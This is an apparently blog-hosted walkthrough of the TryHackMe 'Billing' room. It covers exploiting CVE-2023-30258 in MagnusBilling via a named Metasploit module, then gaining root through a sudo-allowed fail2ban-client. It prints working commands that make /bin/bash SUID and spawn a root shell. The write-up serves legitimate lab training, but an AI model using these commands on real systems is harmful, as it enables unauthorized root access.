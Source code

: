 ```yaml
---
title: TryHackMe Billing Write-Up Walk Through
date: 2025-06-26 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
tags: [tryhackme,ctf, magnusbilling, ctf, fail2ban,unauthenticated Remote Command Execution]
description: "Exploit CVE-2023-30258 on TryHackMe's Billing room and escalate to root with fail2ban-client."
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-billings-room-f.png
  alt: TryHackMe Billing
---
```


## TryHackMe Billing Room: MagnusBilling Exploit - From Initial Access to Root

After running an initial scan, you'll discover a **MagnusBilling** instance running on **port 80**. A quick Google search reveals **CVE-2023-30258**, an **unauthenticated Remote Command Execution (RCE)** vulnerability—your ticket in.

**[You can follow YouTube video walk through here](https://youtu.be/p2ozqA4nbLg)**

## Exploiting CVE-2023-30258: Two Paths to Initial Access

There are two effective ways to exploit this:

- **Metasploit Module**: Fire up the `magnusbilling_unauth_rce_cve_2023_30258` module. Set your `LHOST` (your IP) and `RHOST` (target IP) to snag a shell.
- **Python Script**: Prefer a hands-on approach? Use a custom Python script for manual RCE.

Both drop you into a shell as the `asterisk` user on the `Billing` machine.

## Privilege Escalation: Unlocking Root with `fail2ban-client`

Once inside, run `sudo -l` and you'll see:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This is gold. The `asterisk` user can run `/usr/bin/fail2ban-client` as **root** without a password, opening up multiple escalation paths.

### Example Exploit: SUID Root Shell

Here's one method to get root:

```console
sudo /usr/bin/fail2ban-client set sshd addaction myexploit
sudo /usr/bin/fail2ban-client set sshd action myexploit actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5
ls -l /bin/bash
/bin/bash -p
```

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/p2ozqA4nbLg)** on my YouTube channel for step-by-step guidance:

**[CLICK HERE FOR YOUTUBE VIDEO WALK THROUGH](https://youtu.be/p2ozqA4nbLg)**

<a href="https://youtu.be/p2ozqA4nbLg">
  <img src="tryhackme-billings-room-youtube.png"  alt="TryHackMe Billing" >
</a>

